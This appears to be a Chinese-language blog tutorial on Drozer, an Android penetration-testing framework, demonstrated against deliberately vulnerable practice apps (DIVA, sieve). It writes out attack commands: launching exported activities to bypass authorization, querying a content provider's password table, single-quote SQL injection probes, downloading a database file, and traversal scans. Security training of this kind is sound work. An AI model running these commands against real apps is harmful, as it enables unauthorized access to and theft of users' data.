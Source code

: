 ```yaml
---
layout:     post
title:      Android渗透框架-Drozer教程
subtitle:   安卓渗透学习
date:       2019-04-05
author:     蓝胖
header-img: img/post-bg-2019-04-05.jpg
catalog: true
tags:
    - Android
    
  
---
```


>“我相信未来我们会生活在一个数据被时时监控的时代，被企业出于商业目的监控，被黑客出于牟利目的监控。这就像我们每个人都赤身露体行走在光天化日之下一样，想想就会让人不舒服。如果没有合理的法律和有效的技术保护手段，这将是最糟糕的时代。
但这个时代终将到来，不管我们是否喜欢它，只能做好迎接它的准备，不适者将被淘汰。我们能做的，是尽自己的微薄之力，按照我们的想法，将这个即将到来的时代塑造得更加美好”

# Kali安装Drozer
````python
root@kali:~# git clone https://github.com/mwrlabs/drozer/
root@kali:~# cd drozer/
root@kali:~/drozer# python2 setup.py build
root@kali:~/drozer# python2 setup.py install
````


[![AR443Q.png](https://s2.ax1x.com/2019/04/05/AR443Q.png)](https://imgchr.com/i/AR443Q)
# Kali安装adb
````python
root@kali:~# apt-get install android-tools-fastboo
root@kali:~# apt-get install android-tools-adb
````
[![AR4cHP.png](https://s2.ax1x.com/2019/04/05/AR4cHP.png)](https://imgchr.com/i/AR4cHP)
 
# 手机安装agent
agent下载地址：https://github.com/mwrlabs/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk
使用adb将agent安装到手机。
安装完成后，手机打开agent
### 端口转发
使⽤adb进⾏端⼝转发，转发到Drozer使⽤的端⼝31415。  **adb forward tcp:31415  tcp:31415**
# 运行Drozer

**drozer console connect**
[![AR4ynI.png](https://s2.ax1x.com/2019/04/05/AR4ynI.png)](https://imgchr.com/i/AR4ynI)


# 常用命令
```python
#列出所有模块
list
app.activity.forintent                   Find activities that can handle the given intent                           
app.activity.info                        Gets information about exported activities.                                    
app.activity.start                       Start an Activity                                                              
app.broadcast.info                       Get information about broadcast receivers                                      
app.broadcast.send                       Send broadcast using an intent                                                 
app.broadcast.sniff                      Register a broadcast receiver that can sniff particular intents  
```
```python
#列出设备中所有已安装的包
run app.package.list
```
[![AR46Bt.png](https://s2.ax1x.com/2019/04/05/AR46Bt.png)](https://imgchr.com/i/AR46Bt)

```python
#搜索包名
run app.package.list -f [app name]
```
[![AR4rjA.png](https://s2.ax1x.com/2019/04/05/AR4rjA.png)](https://imgchr.com/i/AR4rjA)

```python
#显示包的详细信息
run app.package.info -a [app name]
```
[![AR4RN8.png](https://s2.ax1x.com/2019/04/05/AR4RN8.png)](https://imgchr.com/i/AR4RN8)

```python
#查看包的可攻击点
run app.package.attacksurface [app name]

```
[![AR42Af.png](https://s2.ax1x.com/2019/04/05/AR42Af.png)](https://imgchr.com/i/AR42Af)

```python
#显示 manifest 文件
run app.package.manifest [app name]
run app.package.manifest jakhar.aseem.diva
```
[![AR4LNT.png](https://s2.ax1x.com/2019/04/05/AR4LNT.png)](https://imgchr.com/i/AR4LNT)


# 四大组件
## 一、activity 界面
> 应用程序中，一个Activity通常就是一个单独的屏幕，它上面可以显示一些控件也可以监听并处理用户的事件做出响应。 Activity之间通过Intent进行通信。在Intent的描述结构中，有两个最重要的部分：动作和动作对应的数据。

使用apktool反编译出安装包的AndroidManifest.xml文件，可看到将activity的exported设置为true。说明存在被导出的分险
[![AR4W4S.md.png](https://s2.ax1x.com/2019/04/05/AR4W4S.md.png)](https://imgchr.com/i/AR4W4S)

```python
#查看对外的activity组件信息
run app.activity.info -a app_name
run app.activity/broadcast/Service/provider.info -a app_name
```

[![AR4Ijs.md.png](https://s2.ax1x.com/2019/04/05/AR4Ijs.md.png)](https://imgchr.com/i/AR4Ijs)

```python
#使用app.activity.start进行漏洞测试，弹出内部功能，说明存在越权漏洞
run app.activity.start --component [app_name]  [acitvity_name]
run app.activity.start --component com.huahua.testinh  com.huahua.testing.test
```

[![AR4h9g.md.png](https://s2.ax1x.com/2019/04/05/AR4h9g.md.png)](https://imgchr.com/i/AR4h9g)

## 二、Broadcast Receiver 应用进程通信
> BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。



## 三、Service  后台服务

> 一个Service 是一段长生命周期的，没有用户界面的程序，可以用来开发如监控类程序。较好的一个例子就是一个正在从播放列表中播放歌曲的媒体播放器。在一个媒体播放器的应用中，应该会有多个activity，让使用者可以选择歌曲并播放歌曲。

## 四、Content Provider 应用数据管理
> android平台提供了Content Provider使一个应用程序的指定数据集提供给其他应用程序。这些数据可以存储在文件系统中、在一个SQLite数据库、或以任何其他合理的方式。其他应用可以通过ContentResolver类从该内容提供者中获取或存入数据。只有需要在多个应用程序间共享数据是才需要内容提供者。

#### 信息泄露利用
```python
#扫描并获取Content Provider信息，并列出了可访问内容URI的列表和路径：
run scanner.provider.finduris -a app_name
```

[![AR4Tun.png](https://s2.ax1x.com/2019/04/05/AR4Tun.png)](https://imgchr.com/i/AR4Tun)

```python
#查询或修改数据库中的数据，发现存在数据泄露问题，访问uri可看到一些敏感信息
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

[![AR45cj.md.png](https://s2.ax1x.com/2019/04/05/AR45cj.md.png)](https://imgchr.com/i/AR45cj)


#### SQL注入漏洞


```python
#同样content可能导致注入问题。使用以下语句进行测试发现报错，说明存在SQL注入漏洞。
 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
--projection "'" 

 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
--selection "'" 
```
[![AR4HH0.png](https://s2.ax1x.com/2019/04/05/AR4HH0.png)](https://imgchr.com/i/AR4HH0)
##### 注入点位置进行扫描
```python
run scanner.provider.injection -a  com.mwr.example.sieve
```

[![AR4qEV.png](https://s2.ax1x.com/2019/04/05/AR4qEV.png)](https://imgchr.com/i/AR4qEV)

##### 文件下载
```python
run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data
#执行成功后应该回显以下内容
/data/com.mwr.example.sieve/databases/database.db /home/user/database.db 
Written 24576 bytes
```
##### 目录遍历
```python
 run scanner.provider.traversal -a com.mwr.example.sieve
```
[![AR47Bq.png](https://s2.ax1x.com/2019/04/05/AR47Bq.png)](https://imgchr.com/i/AR47Bq)
